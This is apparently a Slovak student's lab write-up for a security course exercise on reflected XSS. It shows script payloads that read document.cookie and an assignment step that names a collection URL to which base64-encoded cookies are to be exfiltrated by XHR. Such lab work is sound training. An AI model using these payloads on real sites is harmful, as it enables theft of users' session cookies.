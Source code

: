 ![](image-2.png)

URL obsahuje v premennej **name** môj javascript kód.

## 3.2 Exfiltration using reflected XSS

- Využite nájdenú zraniteľnosť z 3.1 na vykonanie reflected XSS útoku.
- Získajte pomocou javascriptu obsah používateľových cookies, zakódujte ich do base64 reťazca a cez XMLHttpRequest (XHR) ich exfiltrujte cez GET request na: https://dev.netvor.sk/ex/?ami=ais_login&data=exfiltrovane_data
- Javascript najskor otestujte a odlaďte na svojom prehliadači.
- Pre získanie exfitrovaných dát navštívte stránku: https://dev.netvor.sk/ex/data/ais_login.txt


Zobrazenie cookie sa dá pomocou document.cookie
```js
<script> alert(document.cookie); </script>
```

![](image-3.png)

aby som si cookie mohol skopírovať, zobrazil som si cookie cez console.log a zaenkódoval cookie do base64:

```js
<script>console.log(document.cookie)</script>
```

Cookie encodnute v base64: **SVA9ODUuMjM3LjIzNC4xMjc7IFVBPU1vemlsbGElMkY1LjAlMjAlMjhXaW5kb3dzJTIwTlQlMjAxMC4wJTNCJTIwV2luNjQlM0IlMjB4NjQlMjklMjBBcHBsZVdlYktpdCUyRjUzNy4zNiUyMCUyOEtIVE1MJTJDJTIwbGlrZSUyMEdlY2tvJTI5JTIwQ2hyb21lJTJGMTE3LjAuMC4wJTIwU2FmYXJpJTJGNTM3LjM2**
